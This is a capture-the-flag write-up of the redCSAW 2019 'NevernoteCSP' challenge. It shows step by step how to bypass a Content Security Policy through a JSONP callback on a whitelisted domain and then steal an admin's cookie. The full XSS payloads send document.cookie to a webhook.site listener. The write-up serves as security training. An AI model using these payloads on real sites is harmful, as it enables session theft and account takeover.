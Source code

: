 ## NevernoteCSP by sAINT_barber
---

*This is my first write up so be gentle*

This is a write up for the challenge NevernoteCSP on the redCSAW 2019 CTF competition.

First we are greeted with the challenge description

![alt text][image1]

We will be performing some sort of cookie stealing, and we also understand from the title that it will be pointing to a type of CSP bypass.

After creating an account and clicking around on the site the only thing you could actually do was create and upload notes.

![alt text][image2]

So, we can edit the note title and give it some content. And then we can report the post to an admin.
By this one can assume we will be doing some XSS with a cookie stealing payload to steal the admins cookie and get the flag!

The only area that does not sanitize the users input is the content area. As you can see below i have changed the content style to bold with the `<b>` tag

![alt][image3]

Now lets add a script with a simple alert!
`<script>alert('Haircuts')</script>`

![alt][image4]

Nothing came up, but we did get a warning in the dev-tools console tab

![alt][image5]

Content Security Policy is blocking the inline script, from the name 'script-src' it only accepts javascript from a source file. From there we can view the CSP in the network tab by clicking on a request and checking the headers

![alt][image6]

We can copy the policy into this site to check its' evaluation:
https://csp-evaluator.withgoogle.com/

We can see that the
`script-src 'self' cdn.jsdelivr.net *.ngs.ru` trusts domains 2 that are known to bypass CSP

![alt][image7]

After some googling i found from the cdn.jsdeliver.net domain a callback function that reflects whatever javascript you equal it as.

`https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')`

so now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')"></script>`

Lets place this in the content part of a new note and see if we bypass the CSP

And voila! We bypassed the CSP. Now we can move on to getting the admins cookie!

![alt][image8]

In general what we need to do now is report our note to the admin, wait until he/she opens our note it should redirect him/her to a malicious site that we are listening on so we can see his/her cookies in the request header.

I will be using a site called Webhook (https://webhook.site) as my listener.

We can use this javascript code to redirect the admin to our site.
`window.location.replace('malicioussite.something')`<br>
Our payload now looks like this<br>

`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762')"></script>`

Now all we need to do is add this payload then report to the admin, but if you're following along you will notice that as soon as we click on this note it will automatically redirect us to the webhooks listener (Thats what we want), and wont allow us to click the *report to admin link*. We can see the 'href' request makes: /notes/report/{note_id}, all we need to do is write down our note id and make a simple get request with that id.

Looking at the webhooks site we can see our admins request!

![alt][image9]

Perfect! Now all we need to do is use the document.cookie javascript method to print out the cookie, what i did is add the cookie to the query of the get request the admin performs on our malicious site e.g malicioussite.com/?name=sAINT_barber,

Now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762/?elaToCookie='.concat(document.cookie))"></script>`

*Note: I used the .concat() function to concatenate the document.cookie onto the query string, if you want to use the '+' sign then you will have to url encode it because the '+' in the url translates to a space.*

Now lets see if it works!

![alt][image10]

Boom! We can see in the Query strings our flag!

Note: If the cookie flag had the httpOnly flag then it would not print out with the document.cookie method.

A big Thank you to styx00! Not only did he help me complete the challenge, but also helped me understand the procedure of bypassing the CSP and Reflected XSS.

Flag: `flag{go_to_r/ProgrammerHumor_for_a_good_time}`



[image1]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image1.png
[image2]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image2.png
[image3]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image3.png
[image4]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image4.png
[image5]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image5.png
[image6]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image6.png
[image7]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image7.png
[image8]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image8.png
[image9]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image9.png
[image10]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image10.png

